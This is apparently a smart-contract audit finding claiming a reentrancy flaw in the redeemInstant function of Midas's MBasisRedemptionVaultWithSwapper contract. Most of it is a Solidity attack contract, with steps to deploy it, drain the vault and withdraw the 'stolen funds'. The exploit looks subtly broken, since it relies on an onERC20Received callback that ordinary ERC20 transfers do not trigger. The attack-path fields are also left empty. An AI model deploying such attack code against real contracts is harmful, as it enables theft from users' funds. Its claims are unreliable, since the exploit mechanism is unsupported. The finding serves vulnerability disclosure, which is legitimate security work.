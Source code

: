 Sweet Hickory Pangolin

High

# Reentrancy Attacks at redeemInstant  function for MBasisRedemptionVaultWithSwapper  contract

### Summary

Line: https://github.com/sherlock-audit/2024-08-midas-minter-redeemer/blob/main/midas-contracts/contracts/mBasis/MBasisRedemptionVaultWithSwapper.sol#L88

The contract contains functions that transfer tokens to external addresses and then perform additional logic afterward. 

### Root Cause

Lack of reentrancy guard

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Attacker can re-enter the contract and manipulate its state.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./MBasisRedemptionVaultWithSwapper.sol"; // Assuming this is the contract file with the target function
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ReentrancyAttack {
    MBasisRedemptionVaultWithSwapper public targetContract;
    IERC20 public token;
    address public attacker;

    constructor(address _targetContract, address _token) {
        targetContract = MBasisRedemptionVaultWithSwapper(_targetContract);
        token = IERC20(_token);
        attacker = msg.sender;
    }

    function initiateAttack(uint256 amountMTokenIn) external {
        // Approve the target contract to spend tokens
        token.approve(address(targetContract), amountMTokenIn);

        // Trigger the reentrancy by calling redeemInstant
        targetContract.redeemInstant(address(token), amountMTokenIn, 1);
    }

    function onERC20Received(
        address, /*operator*/
        address, /*from*/
        uint256, /*value*/
        bytes calldata /*data*/
    ) external returns (bytes4) {
        // Re-enter the redeemInstant function
        uint256 balance = token.balanceOf(address(this));
        if (balance > 0) {
            targetContract.redeemInstant(address(token), balance, 1);
        }

        return this.onERC20Received.selector;
    }

    // Fallback function to receive Ether
    receive() external payable {}

    // Withdraw stolen funds
    function withdraw() external {
        require(msg.sender == attacker, "Not the attacker");
        payable(attacker).transfer(address(this).balance);
        token.transfer(attacker, token.balanceOf(address(this)));
    }
}
```
Step 2: Explanation
initiateAttack: This function begins the attack by calling the redeemInstant function on the target contract. It passes the amount of tokens the attacker intends to use.

onERC20Received: This function is triggered when the target contract sends tokens back to the malicious contract. It immediately calls redeemInstant again, exploiting the reentrancy vulnerability. The loop continues until the contract runs out of tokens or gas.

withdraw: This function allows the attacker to withdraw all the stolen funds after the attack is complete.

Step 3: Deploy and Execute the Attack
Deploy the ReentrancyAttack contract by providing the target contract address (MBasisRedemptionVaultWithSwapper) and the token address.
Fund the ReentrancyAttack contract with the tokens needed for the attack.
Call the initiateAttack function from the attacker's address.
The contract will recursively call redeemInstant, draining the target contract's tokens.
After the attack, call withdraw to transfer the stolen funds to the attacker's address.

### Mitigation

Use the ReentrancyGuard modifier from OpenZeppelin to prevent reentrancy, or carefully order state changes and external calls to follow the "checks-effects-interactions" pattern.